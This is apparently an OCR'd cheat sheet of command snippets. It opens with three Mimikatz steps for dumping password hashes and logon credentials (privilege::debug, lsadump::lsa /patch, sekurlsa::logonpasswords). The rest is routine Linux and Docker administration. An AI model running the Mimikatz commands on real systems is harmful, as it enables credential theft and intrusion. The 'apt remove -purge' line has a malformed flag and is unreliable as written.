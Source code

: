 ***

**MIMIKATZ:**

```
step 1 : run mimikatz

./mimikatz

step 2: Assign Privs

privilege::debug


step 3: Dumps the hashes from SAM file

lsadump::lsa /patch 
 or 
sekurlsa::logonpasswords


```

***

**START A SERVICE**

`sudo systemctl start <service>`

***

**ENABLE A SERVICE**

`sudo systemctl enable <service>`

***

**DELETE A PACKAGE**

`apt remove -purge <name>`

***

**INSTALL A DEB PACKAGE**

`sudo dpkg -i <path to .deb package>`

> \-i means install

***

**RUN DOCKER**

`docker run -Pit alpine`

Connect to a running container Get container ID by ps command

`docker exec -it c0a64a77b9d4 bash`

***
